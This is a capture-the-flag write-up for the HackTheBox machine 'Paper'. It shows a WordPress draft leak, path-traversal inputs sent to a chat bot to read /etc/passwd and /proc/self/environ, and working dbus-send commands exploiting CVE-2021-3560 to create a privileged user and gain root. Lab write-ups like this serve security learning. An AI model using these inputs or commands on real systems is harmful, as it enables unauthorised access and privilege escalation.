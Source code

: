 # HTB_Paper_writeup
Write-up of the machine "Paper" on HackTheBox. This machine include some LFI(I guess). This machine took me two days to complete and I learned some things interesting.

## Score:
**Points: 20**

## Solution:

## WEB
When we starts the machine it give us an IP address (in my case 10.10.11.143). It's a default page of an apache server. We can ran nmap, nikto to see if there's any suspicious stuff.
[nmap.log]
[nikto.log]

Looking at `nikto.log` we can see it capture an "Uncommon header 'x-backend-server' found, with contents: office.paper". We could find this 'x-backend-server' using `whatweb`
[whatweb.log]

Good, now we need to add the value of that header in our /etc/hosts file. So that we can access the site http://office.paper.
[host file]

Acessing this site, we come across to an Wordpress blog. Goingo straight to the point, in the post "Feeling Alone!" we can see that nick has commented to Michael(the owner) that he sould "remove the secret content from the drafts" since they are not secure as he thinks. Using Wappalyzer extension (or just going to page source), it's possible to see that the version of wordpress is 5.2.3, which is vulnerable.

[searchsploit.png]

The exploit says that if we insert `?static=1` to a wordpress URL, we can leak its secret content. Trying this...
[static.png]

It give us a secret link to registration to a chat system. So, add this another subdomain in the hosts file.
[hosts_chat] --
Copy and paste the link, it take us to a registration page where we can simply create an account an enter to the chat. 
[rocket_notloged.chat] 
[rocket_loged]

Here we are introduced to a bot(recyclops) who can retrieve some informations to us, but we are going to use only two: "file" and "list" (`cat` and `ls` command respectively). We can use the bot by just going to chat in direct message and type "recyclops list", and it will list the files on the present directory. But there's a vulnerability here, if we type "recyclops file ../../../etc/passwd" it'll retrieve to us the file passwd. Great, now we just need to "leverage"!.
[etc_passwd_bot.png]

In this part I didn't know what to do after the LFI, so just googling i found a site which tells how to do it. The file /proc/self/environ has some informations of the environment of the process. Just type "recyclops ../../../proc/self/environ". We got it! Now we have the credentials of the user "dwight".
[proc_self] 

Now we can use SSH to connect to dwight termitnal. We in! 

## Privilege escalation

Here we already have the user flag. Now we need to escalate privilege to root. 
[user.txt]

In the user directory it has linpeas.sh tool, but it won't be so usefull. There's a file called test.sh, that give us an clue of what we will explore. That vulnerability has an CVE -- CVE-2021-3560 --. That script will not do, but there's a video uploaded by the github itself that explain this [CVE](https://www.youtube.com/watch?v=QZhz64yEd0g). I'll spare you the explanation of how the vulnerability works, as the video does it much better.
[head_teste]

We're gonna use these payloads in sequence;

```
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1 & sleep 0.008s ; kill $!
----------------------------------------------
id boris --> verify if the user has been created
----------------------------------------------
openssl passwd -5 iaminvincible! --> create a hash for the password "iaminvincible!"
----------------------------------------------
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1002 org.freedesktop.Accounts.User.SetPassword string:'$5$Fv2PqfurMmI879J7$ALSJ.w4KTP.mHrHxM2FYV3ueSipCf/QSfQUlATmWuuB' string:GoldenEye & sleep 0.008s ; kill $!
```

Note that it may fails sometimes, it's normal, just persist. After run the commands above, just type `su - boris` and type the password, once loged in just type `sudo su`. And We Got It! Now submit the root flag and root the machine.
[root.txt]

--If you have any questions about the vulnerability exploit, visit the link that I left linked. 
